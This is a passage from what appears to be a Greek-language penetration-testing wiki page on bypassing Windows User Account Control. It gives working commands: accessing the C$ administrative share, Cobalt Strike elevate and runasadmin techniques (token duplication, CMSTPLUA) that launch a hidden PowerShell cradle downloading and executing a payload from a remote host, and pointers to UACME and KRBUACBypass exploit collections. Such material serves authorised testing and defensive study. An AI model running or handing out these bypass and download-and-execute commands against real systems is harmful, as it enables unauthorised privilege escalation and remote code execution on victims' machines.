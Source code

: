 {% hint style="warning" %}
**Φαίνεται ότι αυτό το κόλπο δεν λειτουργεί πλέον**
{% endhint %}

```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```

### Παράκαμψη UAC με το Cobalt Strike

Οι τεχνικές του Cobalt Strike θα λειτουργήσουν μόνο εάν το UAC δεν έχει οριστεί στο μέγιστο επίπεδο ασφαλείας του.

```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

**Το Empire** και το **Metasploit** έχουν επίσης αρκετά modules για το **παράκαμψη** του **UAC**.

### KRBUACBypass

Τεκμηρίωση και εργαλείο στο [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)

### Εκμετάλλευση παράκαμψης UAC

[**UACME**](https://github.com/hfiref0x/UACME) το οποίο είναι μια **συλλογή** από διάφορες εκμεταλλεύσεις παράκαμψης UAC. Σημειώστε ότι θα χρειαστεί να **μεταγλωτίσετε το UACME χρησιμοποιώντας το visual studio ή το msbuild**. Η μεταγλώττιση θα δημιουργήσει αρκετά εκτελέσιμα (όπως `Source\Akagi\outout\x64\Debug\Akagi.exe`), θα πρέπει να ξέρετε **ποιο χρειάζεστε.**\
Θα πρέπει **να είστε προσεκτικοί** επειδή μερικές παρακάμψεις θα **ενεργοποιήσουν άλλα προγράμματα** που θα **ειδοποιήσουν** τον **χρήστη** ότι κάτι συμβαίνει.

Το UACME έχει τη **έκδοση build από την οποία ξεκίνησε να λειτουργεί κάθε τεχνική**. Μπορείτε να αναζητήσετε μια τεχνική που επηρεάζει τις εκδόσεις σας:

```
PS C:\> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```
